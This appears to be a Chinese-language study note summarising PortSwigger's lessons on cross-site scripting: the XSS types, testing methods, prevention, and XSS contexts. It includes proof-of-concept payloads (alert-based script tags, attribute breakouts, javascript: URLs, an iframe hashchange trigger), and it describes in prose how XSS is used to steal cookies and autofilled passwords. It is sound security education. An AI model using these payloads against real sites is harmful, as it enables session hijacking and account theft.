


# 2023-05-22：筆記 PortSwigger 的 XSS.md

Ref:
- https://portswigger.net/web-security/cross-site-scripting
- https://portswigger.net/web-security/cross-site-scripting/reflected
- https://portswigger.net/web-security/cross-site-scripting/stored
- https://portswigger.net/web-security/cross-site-scripting/dom-based
- https://portswigger.net/web-security/cross-site-scripting/exploiting
- https://portswigger.net/web-security/cross-site-scripting/contexts
- https://portswigger.net/web-security/cross-site-scripting/contexts/client-side-template-injection
- https://portswigger.net/web-security/cross-site-scripting/content-security-policy
- https://portswigger.net/web-security/cross-site-scripting/dangling-markup
- https://portswigger.net/web-security/cross-site-scripting/preventing
- https://portswigger.net/research/alert-is-dead-long-live-print
- https://portswigger.net/research/xss-in-hidden-input-fields
- https://portswigger.net/research/evading-csp-with-dom-based-dangling-markup
- https://portswigger.net/research/bypassing-csp-with-policy-injection

portswigger 的 XSS cheat-sheet
- https://portswigger.net/web-security/cross-site-scripting/cheat-sheet
 

---------------

## 什麼是 cross-site scripting (XSS, 跨站 script)？

XSS
- 允許攻擊者破壞使用者與有漏洞的 Application 的互動
- 允許攻擊者規避 `same origin policy`
  - `same origin policy` 目的在將不同的網站相互隔離開來
- 通常允許攻擊者偽裝成受害使用者，執行使用者能夠執行的任何行動，並訪問使用者的任何資料
- 如果受害者在 Application 中擁有特別訪問權，那麼攻擊者就可能獲得對 Application 所有功能和資料的完全控制


XSS 的原理是操縱有漏洞的網站，使其向使用者返回惡意的 JavaScript
- 當惡意程式碼在受害者的 browser 中執行時，攻擊者可以完全破壞他們與 Application 的互動


------------

## XSS 的 proof of concept

通過 inject payload，使你自己的 browser 執行任意的 JavaScript 來確認大多數種類的 XSS 漏洞
- 長期以來，使用 `alert()` function 是很普遍的做法
- 因為它很短，無害

Chrome 從 v92 開始，cross-origin `iframes` 禁止呼叫 `alert()`
- 有時需要使用替代的 PoC payload，推薦用 `print()`
  - ref: [check out our blog post on the subject](https://portswigger.net/research/alert-is-dead-long-live-print)


有三種主要的 XSS 類型：
1. `Reflected XSS`: 惡意 script 來自於當前的 HTTP request
2. `Stored XSS`: 惡意 script 來自網站的 DB
3. `DOM-based XSS`: 漏洞存在於 client side 的 code 而不是 server side 的 code

------------

## 1. Reflected XSS scripting 
[Reflected XSS](https://portswigger.net/web-security/cross-site-scripting/reflected) 是最簡單的 XSS
- 當 Application 接收 HTTP requset 的資料，並以不安全的方式將該資料包含在 response 中時，它就會出現

下面是 reflected XSS 的簡單例子：
```
https://insecure-website.com/status?message=All+is+well.
<p>Status: All is well.</p>
```

該 Application 不對資料進行任何其他處理，攻擊者很容易這樣的攻擊：

```
https://insecure-website.com/status?message=<script>/*+Bad+stuff+here...+*/</script>
<p>Status: <script>/* Bad stuff here... */</script></p>
```

如果使用者訪問了攻擊者構建的 URL
- 那攻擊者的 script 就會在使用者的 browser 中，在使用者與 Application 的 session 下執行
- 該 script 可以執行任何行動，並搜索使用者可以訪問的任何資料


------------

## 2. Stored XSS
[Stored XSS](https://portswigger.net/web-security/cross-site-scripting/stored)
- 也被稱為 `persistent XSS` or `second-order XSS`
- 是當 Application 從不受信任的來源接收資料並以不安全的方式將該資料包含在其後來的 HTTP response 中時產生的


有問題的資料可能是通過 HTTP request submit 給 Application
- 如，blog 文章的 comment，聊天室的使用者暱稱，或客戶訂單資訊
- 其他情況，資料可能來自其他不可信的來源；如
  - 顯示通過 SMTP 收到的 email 的 Application
  - 顯示 social media 文章的 marketing Application


下面是 stored XSS 的例子: 一個留言板 Application 讓使用者送出訊息，訊息會顯示給其他使用者
```html
<p>Hello, this is my message!</p>
```


該 Application 不對資料進行任何其他處理，攻擊者可以發送攻擊其他使用者的資訊:

```html
<p><script>/* Bad stuff here... */</script></p>
```

------------

## 3. DOM-based 的 XSS
[DOM-based XSS](https://portswigger.net/web-security/cross-site-scripting/dom-based)
- 也稱 DOM XSS
- 漏洞存在於 client side 的 code
- 發生於 Application 包含些 client side 的 JavaScript
- 這些 JavaScript 以不安全的方式處理來自不受信任的來源的資料，通常是通過將資料寫回 DOM


下面 Application 用 JavaScript 讀取 input，並將值寫入 HTML 中的 element：

```js
const search = document.getElementById('search').value;
const results = document.getElementById('results');
results.innerHTML = 'You searched for: ' + search;
```

如果攻擊者能夠控制 input 的值，可以很容易地構建惡意的值，導致自己的 script 執行：

```
You searched for: 
```


在典型的案例中，輸入字串將由 HTTP request 的一部分填充
- 如 URL query string 參數，允許攻擊者使用惡意的 URL 進行攻擊，其方式與 reflected XSS 相同

------------


## XSS 可以用來做什麼？
利用 XSS 的攻擊者通常能夠：
- 冒充或偽裝成使用者。
- 執行使用者能夠執行的任何行動
- 讀取使用者能夠訪問的任何資料
- 拿到使用者的登錄憑證
- 對網站進行 virtual defacement
- 在網站中 inject 木馬功能


XSS 的實際影響一般取決於 Application 的性質、其功能和資料以及被攻擊使用者的狀態。比如：
- 在某個軟體的官方文件網站中，所有的使用者都是匿名的，所有的資訊都是公開的，其影響往往是最小的
- 擁有敏感資料的 Application 中，如銀行交易、電子郵件或醫療記錄，其影響通常會很嚴重
- 如果被攻擊的使用者在 Application 中擁有較高的權限，那麼影響通常會很嚴重，允許攻擊者完全控制有漏洞的 Application，並危及所有使用者和他們的資料

------------

## 如何發現和測試 XSS
[Burp Suite's web vulnerability scanner](https://portswigger.net/burp/vulnerability-scanner) 可以掃描 XSS


手動測試 `reflected XSS` and `stored XSS` 
- 通常包括向 Application 中的每個入口點 submit 些簡單的 unique input（如一個簡短的 alphanumeric string）
- 確定 submit 的 input 在 HTTP response 中返回的每個位置
- 並單獨測試每個位置以確定是否可用於執行任意 JavaScript
- 通過這種方式，你可以確定 XSS 發生的 [XSS context](https://portswigger.net/web-security/cross-site-scripting/contexts)，並選擇合適的 payload 來利用它


手動測試由 URL 參數產生的 DOM XSS 是類似的過程：
- 在參數放些簡單的 unique input，使用 browser 的 devtool 在 DOM 中搜尋這個 input
- 測試每個位置以確定它是否可以利用

然而，其他類型的 DOM XSS 則更難檢測
- 要在非基於 URL 的 input (如 `document.cookie`)或非基於 HTML 的 sinks (如 `setTimeout`) 中找到 DOM-based vulnerabilities
- 過程肯定需要去解讀 JavaScript 的 code
- 非常耗時
- Burp Suite's web vulnerability scanner 能對 JavaScript 進行的靜/動態分析，自動檢測 DOM XSS

------------

## CSP
[Content security policy (CSP)](https://portswigger.net/web-security/cross-site-scripting/content-security-policy)
- browser 的機制，目的是減少 XSS 和其他漏洞的影響
- 用 CSP 的 Application 包含類似 XSS 的行為，CSP 可能會阻礙或阻止對該漏洞的利用
- CSP 是可以被規避，以實現對漏洞的利用


------------

## Dangling markup injection
[Dangling markup injection](https://portswigger.net/web-security/cross-site-scripting/dangling-markup)
- 是種技術，可用在由 input filter 或其他防禦措施而不能完整利用 XSS 的情況下
- 它通常可以用來獲取其他使用者可見的敏感資訊，包括可用於代表使用者執行未經授權的操作的 CSRF tokens


------------

## 如何防止 XSS
防止 XSS 在某些情況下是微不足道的，但根據 Application 的複雜性和處理使用者可控資料的方式，可能要困難得多  

一般來說，有效防止 XSS 可能涉及以下措施的組合：
- 在接收 user input 的地方，盡可能嚴格地根據預期或有效的 input 進行過濾
- 對輸出的資料進行 encode
  - 在 HTTP response 中輸出使用者可控制的資料時，對 output 進行 encode，以防止其被 interpreted as active content
  - 根據輸出環境，可能需要 HTML, URL, JavaScript 和 CSS 的組合
- 使用適當的 response header
  - 為了防止在不打算包含任何 HTML or JavaScript 的 HTTP response 中出現 XSS
  - 使用 `Content-Type` 和 `X-Content-Type-Options` header，確保 browser 以你的方式處理 response
- Content Security Policy
  - 作為最後一道防線，用 CSP 來降低 XSS 的嚴重性

Ref
- https://portswigger.net/web-security/cross-site-scripting/preventing

------------


## XSS 常見問題

XSS 有多普遍？
- XSS 可能是最經常發生的漏洞。

XSS 和 CSRF 的差別是什麼？
- XSS  涉及導致網站返回惡意的 JavaScript
- CSRF 涉及誘導受害者執行他們不打算做的動作


XSS 和 SQL injection 的差別是什麼？
- XSS 是針對其他 Application 使用者的 client side 漏洞
- SQL injection 是針對 Application DB 的 server side 漏洞

------------

## 什麼是 reflected XSS ？
- 是指 Application 接收 HTTP request 中的資料，並以不安全的方式將該資料納入即時 response 中


假設網站有搜尋功能，在 URL 參數中接收使用者提供的搜尋：
```
https://insecure-website.com/search?term=gift
```


Application 在對該 URL 的 response 中呼應提供的搜尋：
```html
<p>You searched for: gift</p>
```

假設 Application 不對資料進行任何其他處理，攻擊者可以構建這樣的攻擊：

```
https://insecure-website.com/search?term=<script>/*+Bad+stuff+here...+*/</script>
```


Response 的結果就會是這樣:
```html
<p>You searched for: <script>/* Bad stuff here... */</script></p>
```

如果另一位使用者 requset 攻擊者的 URL
- 那攻擊者提供的 script 將在受害者的 browser 中，在他們與 Application 的 session 中執行

------------

## reflected XSS 的影響
如果攻擊者能夠控制在受害者的 browser 中執行的 script，那麼通常可以完全控制該使用者:
- 執行使用者可以執行的 Application 中的任何動作
- 查看使用者能夠查看的任何資訊
- 修改使用者能夠修改的任何資訊
- 發起與其他 Application 使用者的互動，包括惡意攻擊，這些互動似乎來自最初的受害使用者


Reflected XSS 攻擊需要**一個外部傳遞機制**
- 這意味著 reflected XSS 的影響通常沒有 stored XSS 那麼嚴重
- 因為 stored XSS 可以在易受攻擊的 Application 本身中傳遞一個獨立的攻擊


------------

## 如何發現和測試 reflected XSS 
`Burp Suite's web vulnerability scanner` 可以掃描  


手動測試 reflected XSS 包括以下步驟：  

測試每個入口點
- 分別測試 Application 的 HTTP request 中的每個資料 entry point
  - 這包括 URL query string 和資訊體中的參數或其他資料
  - 以及 URL file path。它還包括 HTTP header
  - 儘管類似 XSS 的行為只能通過某些 HTTP header 來觸發，但在實務中可能無法利用


Submit 亂數的英文字母/數字
- 對於每個入口點，submit 一個獨特隨機值，並確定該值是否反映在 response 中
  - 值應該成能夠通過大多數 input filter，所以需要相當短
  - 並且只包含英文字母/數字
  - 一個大約 8 個字的隨機字比較理想
  - 可以用 [Burp Intruder number payloads](https://portswigger.net/burp/documentation/desktop/tools/intruder/payloads/types#numbers) 與隨機產生的十六進制值來產生合適的隨機值
  - 而且可以用 [Burp Intruder grep payloads settings](https://portswigger.net/burp/documentation/desktop/tools/intruder/configure-attack/settings#grep-payloads) 來自動標記包含 submit 值的 response


確定 reflection context
- 對於 response 中反映隨機值的每個位置，確定其 context
- 可能在 HTML tag 中、可能在 tag 的 attribute 中、也可能在 JavaScript 變數/string 中，等等

測試候選的 payload
- 根據 reflection context，測試一個初始的 candidate XSS payload
- 如果在 response 中未被修改就被 reflection，就會觸發 JavaScript 執行
- 測試 payload 的最簡單方法是將 request 送到 Burp Repeater，修改 request 以 candidate payload，發出 request，然後查看 response
- 看 payload 是否起作用。有效的工作方法是在 request 中留下原始的隨機值，並將 candidate XSS payload 放在它之前或之後
- 然後將隨機值設置為 Burp Repeater 的 response view 中的 search term
  - Burp 會 highlight 顯示搜尋出現的每個位置，讓你快速定位 reflection

測試 alternative payload
- 如果 payload 被 Application 修改了，或者完全被阻止了，那就需要測試替代的 payload 和技術
- 根據 reflection 的 context 和正在執行的輸入驗證的類型，可能提供一個有效的 XSS 攻擊
  - 參考 [cross-site scripting contexts](https://portswigger.net/web-security/cross-site-scripting/contexts)


在 browser 中測試該攻擊。
- 最後，如果成功地找到可以在 [Burp Repeater](https://portswigger.net/burp/documentation/desktop/tools/repeater) 中起作用的 payload
- 那將 URL 貼到 browser，或者修改 [Burp Proxy's intercept view](https://portswigger.net/burp/documentation/desktop/tools/proxy/intercept-messages) 中的 request，將攻擊轉移到真正的 browser 中
- 看看 inject 的 JavaScript 是否真的被執行
- 通常，最好是執行簡單的，如 `alert(document.domain)`

------------


## Reflected XSS 的常見問題
reflected XSS 和 stored XSS 的差別是什麼？
- `reflected XSS`: Application 從 HTTP request 中取得一些 input，並以不安全的方式將該 input 嵌入到即時 response 中
- `stored XSS`: Application 會存儲輸入並以不安全的方式將其放入到以後的 response 中

reflected XSS and self-XSS 的差別是什麼？
- Self-XSS 涉及的應用行為與普通的 reflected XSS 類似
  - 但它不能以正常方式通過精心設計的 URL 或 cross-domain request 來觸發
  - 相反，只有當受害者自己從他們的 browser 中 submit XSS payload 時才會觸發該漏洞
- reflected XSS 攻擊通常涉及社會工程，讓受害者在 browser 中貼一些攻擊者提供的輸入
  - 因此，它通常被認為是 low-impact issue


------------

 
## 什麼是 stored XSS ?
當 Application 從不受信任的來源接收資料，並以不安全的方式將這些資料包含在其後來的 HTTP response 中時
- 也稱為 second-order or persistent XSS

假設網站允許使用者 submit 文章評論，評論會顯示給其他使用者。使用者用 HTTP request 來 submit 評論：
```
POST /post/comment HTTP/1.1
Host: vulnerable-website.com
Content-Length: 100

postId=3&comment=This+post+was+extremely+helpful.&name=Carlos+Montoya&email=carlos%40normal-user.net
```

submit 後，任何訪問的使用者都會在 Application 中收到以下內容：

```html
<p>This post was extremely helpful.</p>
```

假設 Application 不對資料進行任何其他處理，攻擊者可以 submit 惡意評論：
```html
<script>/* Bad stuff here... */</script>
```


在攻擊者的 request 中，評論將被 URL encode 為：
```
comment=%3Cscript%3E%2F*%2BBad%2Bstuff%2Bhere...%2B*%2F%3C%2Fscript%3E
```

任何訪問的使用者現在都會在 Application 的 response 中收到：
```html
<p><script>/* Bad stuff here... */</script></p>
```

攻擊者提供的 script 將在受害者的 browser 中執行，在他們與 Application 的 session 中進行

------------

## stored XSS 的影響
如果攻擊者能夠控制在受害者的 browser 中執行的 script
- 那麼通常可以完全控制該使用者
- 攻擊者可以進行任何適用於 reflected XSS 的影響的行動

就可利用性而言，reflected 和 stored 的關鍵差別在於
- stored XSS 能使攻擊在 Application 本身中自成一體
- 攻擊者不需要找到外部方式來誘使其他使用者發出包含其漏洞的特定 request
- 相反，攻擊者將漏洞放入 Application 本身，只需等待使用者遇到它


在 XSS 只影響到當前登錄到 Application 的使用者的情況下
- 所以 stored XSS 的 self-contained 特性尤其重要
- 如果 XSS 被 reflected 出來，那**攻擊的時間必是偶然的**
  - 一個被誘導的使用者在沒有登錄的時候發出攻擊者的請求，就不會受到影響
- 相反，如果 stored XSS，那麼使用者在遇到攻擊的時候保證是登錄的

------------

## 如何發現和測試  stored XSS
- Burp Suite's web vulnerability scanner


手動測試 stored XSS 是個挑戰
- 需要測試所有相關的「入口」
  - 攻擊者可控制的資料可以通過這些入口進入 Application 的處理
- 以及所有的「出口」，這些資料可能出現在 Application 的 response 中


進入 Application 處理的入口點包括:
- URL parameters 字串和 message body 的參數或其他資料
- URL file path
- 一些 reflected XSS 可能無法利用的的 HTTP request header 
- 攻擊者可以通過任何 out-of-band 將資料傳送到 Application
  - 存在的路由完全取決於 Application 本身的功能
    - Email Application 處理在 email 中收到的資料
    - 顯示 Twitter feed 的 Application 可能處理第三方推文中包含的資料
    - News aggregator 將包括源自其他網站的資料


Stored XSS 出口點是所有可能的 HTTP response
- 這些 response 在任何情況下都會返回給任何類型的 Application 使用者


測試 stored XSS
- 第一步是定位入口和出口點之間的聯繫，即 submit 給入口點的資料從出口點發出

這具有挑戰性的原因是：
-  submit 給任何入口點的資料原則上都可以從任何出口點出來
  - 如，使用者提供的顯示名稱可能出現在不明顯的 log 中，這些 log 只有特定(權限)使用者可以看到
- 目前由 Application 存儲的資料往往容易在 Application 內執行的其他操作而被覆寫
  - 例如，搜尋功能可能會顯示一個最近的搜尋列表，當使用者執行其他搜尋時，這些列表很快就會被替換
- 要全面識別入口點和出口點之間的聯繫，需要分別測試每一種排列組合
  - 向入口點 submit 特定的值，直接導航到出口點，並確定該值是否出現在那裡
  - 這種方法在有好幾個頁面以上的 Application 中並不實用


相反，更實際的方法是系統地通過 data entry points 著手
- 向每個輸入點 submit 特定的值，並監測 Application 的 response，以檢測 submit 的值出現的情況
- 特別注意相關的 Application 功能，如 blog 的 comment
- 當在 response 中觀察到 submit 的值時，**你需要確定該資料是否確實被儲存在不同的 request 中，而不是簡單地反映在即時 response 中**

當確定了 Application 處理過程中的入口和出口之間的連結時
- 需要對每個連結進行專門測試，以檢測是否存在 stored XSS
- 這涉及到確定 response 中存儲資料出現的 context，並測試適用於該 context 的 XSS payload
  - 測試方法與發現 reflected XSS 的方法大致相同

------------

## 什麼是 DOM-based XSS ?
DOM-based XSS 通常發生在 JavaScript 從攻擊者可控制的源頭(如 URL)獲取資料，並將其傳遞給支持動態程式碼執行的匯入點，如 `eval()` 或 innerHTML
- 這使攻擊者能夠執行惡意的 JavaScript，這通常允許他們劫持其他使用者的帳號


為了達成供 DOM-based XSS 攻擊
- 需要將資料放入一個「來源」，使其傳播到一個 sink，並導致任意 JavaScript 的執行


DOM XSS
- 最常見的來源是 URL，通常用 window.location object 訪問
- 攻擊者可以構建一個連結，將受害者送到有漏洞的頁面，並在查詢字串中加入 payload 和 URL 的部分片段
- 在某些情況下，如針對 404 頁面或運行 PHP 的網站時，payload 也可以放在路徑中


關於 sources 和 sinks 間的 taint flow 的詳細解釋，參考
- [DOM-based vulnerabilities](https://portswigger.net/web-security/dom-based)

------------


## 如何測試 DOM-based 的 XSS
Burp Suite's web vulnerability scanner 能掃描  

要手動測試，基本上需要 browser 的 devtool 來測
- 需要依次處理每個可用的 source，並逐一測試


------------

## 測試 HTML sinks
要測試 HTML sink 中的 DOM XSS
- 可以在 source 中放 random alphanumeric string（如 `location.search`）
- 用 devtool 檢查 HTML，找到你的字串出現的位置
  - 用 `Control+F` 搜尋 DOM 中的字串
- 注意， browser 的 `View source` 對 DOM XSS 測試不起作用，因為它沒有考慮到 JavaScript 在 HTML 中進行的修改
  

對於字串在 DOM 中出現的每個位置
- 你需要確定 context。基於這個 context，需要細化你的 input，看它是如何被處理的
- 例如，如果字串出現在雙引號中，那就嘗試在字串中加上雙引號，看看是否能脫離該屬性


注意
- browser 在 URL encode 的行為是不同的
- Chrome, Firefox, Safari 會對 `location.search` 和 `location.hash` 進行 URL encode
- 而 IE11 和 Microsoft Edge (Chromium之前) 不會 encode。如果資料在被處理之前被 URL encode，XSS 就不可能成功

------------


## 測試 JavaScript execution sinks
測試 DOM XSS 的 JavaScript execution sink 更難
- 這些 sink，你的 input 不一定出現在 DOM 中的任何地方，所以你不能搜尋它
- 相反，需要使用 JavaScript debugger 確定 input 是否以及如何被發送到某個 sink 中


對於每個潛在的 source，如 `location`
- 首先需要在頁面的 JavaScript code 中找到該 source 被引用的情況
- devtool 中，用 `more tool` 開 `search` 頁面，搜尋所有的 JavaScript code，尋找 source


一旦找到 source 被讀取的地方
- 可以用 JavaScript debugger 加個中斷點，並跟踪 source code 的 value 是如何被使用的
- 可能會發現，source 被分配到其他變數。如果是這種情況，你就需要再次使用搜尋功能來跟踪這些變數，看看它們是否被傳遞到了 sink 中
- 當發現一個 sink 被分配到 source 自源的資料時，用 debugger 來檢查值，將 mouse 停在變數上，顯示它被發送到 sink 之前的值
- 然後，和 HTML sink 一樣，需要細化 input，看看是否能成功地提供一個 XSS 攻擊

------------

## 用 DOM Invader 測試 DOM XSS
Identifying 和 exploiting DOM XSS 是個繁瑣的過程，通常需要大量手動讀複雜的、minified JavaScript
- 用 Burp的 browser，可以用 DOM Invader extension 來幫助這工作

Ref
- DOM Invader documentation: https://portswigger.net/burp/documentation/desktop/tools/dom-invader

------------

## 利用不同的 sources 和 sink 的 DOM XSS 漏洞
原則上，如果有個「可執行路徑」，資料可以從 sources 傳到 sink 中
- 那網站就容易受到 DOM XSS 攻擊
- 在實務中，不同的 sources 和 sink 有不同的屬性和行為，會影響到可利用性，並決定什麼技術是必要的
- 此外，網站的 script 可能會驗證或其他資料處理
- 各種各樣的 sink 與 DOM based 的漏洞有關。參考下面的列表
  - (list: https://portswigger.net/web-security/cross-site-scripting/dom-based#which-sinks-can-lead-to-dom-xss-vulnerabilities )
  - (下面也有筆記)

`document.write` sink 與 script tag 一起用，所以可以用個簡單的 payload，比如:

```js
document.write('... <script>alert(document.domain)</script> ...');
```


注意，在某些情況下，被寫入 `document.write` 的內容會包括一些周圍的 context
- 需要在你的利用中考慮到這些 context
- 如，可能需要在使用你的 JavaScript payload 之前關閉些現有 **tag**


在任何 modern browser 上
- `innerHTML` sink 都不接受 script tag
- svg onload event 也不會發生
- 你需要使用其他元素，如 `img` 或 `iframe`
- `onload`和 `onerror` 等 event handler 可與這些 tag 結合使用

比如：
```js
element.innerHTML='...  ...'
```

------------
 
## 第三方 dependencies 中的 source 和 sink
現在的 Web Application 通常使用第三方 lib 和 framework 來構建
- 重要的是要記住，其中一些也是 DOM XSS 的潛在來 source 和 sink

 
------------

## jQuery 的 DOM XSS
如果用的是 jQuery 這樣的 library
- 要注意那些可以改變頁面上 DOM element 的 sink。如 jQuery 的 `attr()` 可以改變 DOM element 的 attributes
- 如果從使用者控制的 source (如 URL)讀取資料，然後傳給 `attr()`，那就有可能操縱發送的值以導致 XSS

例如，這 JavaScript，用 URL 的資料來改變 `<a />` 的 `href`：
```js
$(function() {
  $('#backLink').attr("href",(new URLSearchParams(window.location.search)).get('returnUrl'));
});
```

修改 URL 使 `location.search` source 包含惡意的 JavaScript URL 
- 在頁面的 JavaScript 將這個惡意的 URL 放到 href 中後，點擊連結就會執行


```
?returnUrl=javascript:alert(document.domain)
```

另個潛在 sink 是 jQuery 的 `$()`
- 可以被用來向 DOM inject malicious objects

一個典型的 DOM XSS 漏洞是由網站使用 `$()` 與 `location.hash` source 結合使用
- 實現動畫或自動滾動到頁面上特定元素
- 這通常是通過有漏洞的 hashchange event handler 實現的

類似下面的內容：
```js
$(window).on('hashchange', function() {
  var element = $(location.hash);
  element[0].scrollIntoView();
});
```


由於 `hash` 是使用者可控的，攻擊者可以向 `$()` inject 一個 XSS vector 
- 最近 jQuery 已經修了這個特殊漏洞，當輸入以 `#` 開頭時，可以防止你將 HTML inject 到 selector
- 然而，你仍然可能在野外發現有漏洞的程式碼


要真正利用這個經典的漏洞
- 你需要找到一種方法，在沒有使用者互動的情況下觸發 `hashchange` event
- 最簡單的方法之一是通過 iframe 提供你的漏洞

```html
<iframe src="https://vulnerable-website.com#" onload="this.src+=''">
```


這個例子中，`src` 指向有漏洞的頁面
- 其 **hash 值為空**
- 當 iframe 被載入時，XSS vector 被加到 hash 中，導致 `hashchange` event 發生


注意
- 即使是較新版本的 jQuery 仍可以通過 `$()` sink 受到攻擊
- 只要你能完全控制它的輸入，從一個不需要 `#` 前綴的 source

------------

## AngularJS 中的 DOM XSS
如果用 AngularJS，就可能在沒有 angle brackets 或 event 的情況下執行 JavaScript
- 當網站在 HTML element 上用 `ng-app` 屬性時，它將被 AngularJS 處理
- 在這情況，AngularJS 將執行 `double curly braces` 內的 JavaScript
  - 這些 double curly braces 可以直接出現在 HTML 中或 attribute 內


------------

## DOM XSS 結合 reflected data 和 stored data
一些 pure DOM-based 的漏洞在 single page 中是自成一體的
- 如果一個 script 從 URL 中讀取資料並將其寫入一個危險的 sink 中，那麼這個漏洞就完全是 client side 的

然而
- source 並不限於 browser 直接暴露的資料
- 也可以源自網站。如，網站經常在 server 的 HTML response 中反映 URL 參數
  - 這通常與一般 XSS 有關，但它也可能導致 reflected DOM XSS

在 reflected DOM XSS 中
- server 處理來自 request 的資料，並將這些資料反饋到 response 中
- 反映的資料可能被放入 JavaScript 字串，或 DOM 中的一個資料項，如表格字串
- 然後，頁面上的 script 以不安全的方式處理 reflected 的資料，最終將其寫入危險的 sink 中

```js
eval('var data = "reflected string"');
```

網站也可能在 server 上存儲資料，並將其反映在其他地方
- 在 stored DOM XSS 中，server 從 request 中接收資料，存儲它
- 然後將資料包含在後來的 response 中。在後來的 response 中，一個 script 包含一個 sink，然後以不安全的方式處理這些資料

```js
element.innerHTML = comment.author
```

------------

## 哪些 sink 可以導致 DOM-XSS 漏洞？
以下是一些可能導致 DOM-XSS 漏洞的主要 sink：

```js
document.write()
document.writeln()
document.domain
element.innerHTML
element.outerHTML
element.insertAdjacentHTML
element.onevent
```

以下的 jQuery function 也可能導致 DOM-XSS 漏洞的 sink：

```js
add()
after()
append()
animate()
insertAfter()
insertBefore()
before()
html()
prepend()
replaceAll()
replaceWith()
wrap()
wrapInner()
wrapAll()
has()
constructor()
init()
index()
jQuery.parseHTML()
$.parseHTML()
```

------------

## 利用 XSS 漏洞
證明你發現 XSS的 傳統方法是用 `alert()`
- 有些人用 `alert(document.domain)`，這是一種明確方式

有時
- 會想更進一步，通過提供完整的漏洞來證明 XSS 是真正的威脅


下面將探討三種最流行、最強大的利用 XSS 漏洞的方法

------------

## 1. 利用 XSS 偷 cookies
偷 cookie 是利用 XSS 的傳統方式
- 大多 Web Application 使用 cookie 處理 session
- 利用 XSS，將受害者的 cookie 發送到你自己的 domain，然後手動將 cookie inject browser，冒充受害者

在實務中，這種方法有些重要的限制：
- 受害者可能沒有登錄
- 許多 Application 使用 `HttpOnly` 隱藏 cookie，使其不受 JavaScript 影響
- Session 可能被鎖定在其他因素上，如使用者的 IP
- Session 可能在劫持它之前就 timeout 了

------------

## 2. 利用 XSS 偷 passwords
如今，許多使用者的 password managers 自動填寫密碼
- 可以利用這一點，建立一個密碼輸入，讀出自動填寫的密碼，並送到你自己的 domain
- 這種技術避免了大部分與偷 cookies 有關的問題
  - 甚至可以獲得受害者重複使用同一密碼的其他所有帳號的訪問權


這技術主要缺點是
- 它只適用於那些有執行密碼自動填寫的使用者
- (如果使用者沒有保存密碼，你仍然可以試圖通過釣魚攻擊獲得他們的密碼，但這不太一樣)


------------

## 3. 利用 XSS 來執行 CSRF
一個合法使用者可以在網站上做的任何事情
- 可能也可以用 XSS 做
- 根據目標網站，你可能會讓受害者發送資訊，接受朋友請求，或轉移比特幣

一些網站允許登錄的使用者「在不重新輸入密碼的情況」下更改電子郵件地址
- 如果你發現了 XSS，你可以讓它觸發這個功能，將受害者的電子郵件地址改為你控制的地址，然後觸發密碼重置，以獲得對帳號


這種類型的漏洞通常被稱為 CSRF
- 這有點令人困惑，因為 CSRF 也可以作為獨立的漏洞發生
- 當 CSRF 作為獨立的漏洞發生時，它可以使用 anti-CSRF tokens 等策略來修補
- 然而，如果同時存在 XSS，這些策略並不能提供任何保護

------------

## XSS contexts

在測試 reflected 和 stored XSS 時
- **一個關鍵任務是確定 XSS 的 context**
  - response 中出現攻擊者可控制資料的**位置**
  - 任何輸入驗證或 Application 對該資料進行的其他處理
- 基於這些細節，你可以選擇一/多個候選 XSS payload，並測試它們是否有效


portswigger 有整理一個全面的 XSS cheat sheet，以幫助測試 web app 和 filter
- 可以針對 event 和 html tag 進行過濾，並查看哪些向量需要使用者互動
- https://portswigger.net/web-security/cross-site-scripting/cheat-sheet


------------
## HTML tag 之間的 XSS
當 XSS context 是 HTML tag 之間的 text 時
- 你需要引入新的 HTML tag 來觸發 JavaScript 執行


例如:
```js
<script>alert(document.domain)</script>

```

------------

## HTML tag attributes 中的 XSS
當 XSS上 context 是 tag 的 attribute 時
- 有時你可能會終止該 attribute，關閉該 tag，並引入新 tag

比如：
```
"><script>alert(document.domain)</script>
```


在這種情況下
- 更常見的是 brackets 被封鎖或 encode
- 你的輸入不能脫離它出現的 tag
- 只要你能終止 attribute，你通常可以引入新的 attribute，建立一個 script 的 context

如一個 event handler：
```
" autofocus onfocus=alert(document.domain) x="
```

上述 payload 建立了 `onfocus` event
- 當 element focus 時將執行 JavaScript，並且還加了 `autofocus`，試圖在沒有任何使用者互動的情況下自動觸發 `onfocus` 事件
- 最後 `x="` 來優雅地修復下面的 tag


有時，XSS context 是進入一種 HTML tag attribute
- 它本身可以建立一個 script 的 context，可以執行 JavaScript 而不需要終止該 attribute

例如，如果 XSS context 是在 `href` 屬性中，你可以用 javascript pseudo-protocol 來執行 script
```html
<a href="javascript:alert(document.domain)">
```

你可能會遇到對 angle brackets 進行 encode 的網站，但仍然允許 inject attribute
- 有時，這些 inject 甚至可以在通常不自動觸發事件的 tag 內進行，如 `canonical` tag
- 你可以利用 Chrome 上的 `accesskey` 和使用者互動來利用這種行為
- `accesskey` 提供引用特定 tag 的鍵盤快捷方式
- `accesskey` 屬性允許你定義一個字母，當與其他鍵結合按下時（這些鍵在不同的平台上有所不同），將導致事件的發生

相關 case study (下面有筆記這篇 blog)
- [在隱藏的 input 中利用 XSS](https://portswigger.net/research/xss-in-hidden-input-fields)


------------

## 隱藏的 input 中的 XSS
Liam 在一個 hidden 的 input (REDACTED) element 中發現了 XSS 漏洞：

```html
<input type="hidden" name="redacted" value="default" injection="xss" />
```


hidden input 中的 XSS 通常是很難被利用的
- 因為典型的 JavaScript event 如 `onmouseover` 和 `onfocus` 因為 element 不可見而無法被觸發

Liam 進一步調查
- 看看是否有可能在 modern browser 上利用這個問題
- 嘗試了一堆東西，如 `autofocus`, CSS 和其他東西。最後想到了 access keys
- 想知道當 hidden input 通過 access keys 觸發時，`onclick` event 是否會被呼叫？
- 在 Firefox 上，它會被呼叫！這意味著我們可以在 hidden attribute 中執行 XSS payload，只要你能說服受害者按下組合鍵
- 在 Firefox Windows/Linux 上，組合鍵是 `ALT+SHIFT+X` (OS X 是`CTRL+ALT+X`)

這裡有個 vector：
```html
<input type="hidden" accesskey="X" onclick="alert(1)">
```

這個 vector 並不理想
- 因為它涉及到一些使用者互動，但它比 `expression()` 好得多 (只在 IE<=9 上有用)
- 注意，如果 reflection 重複，那麼按鍵組合將失敗
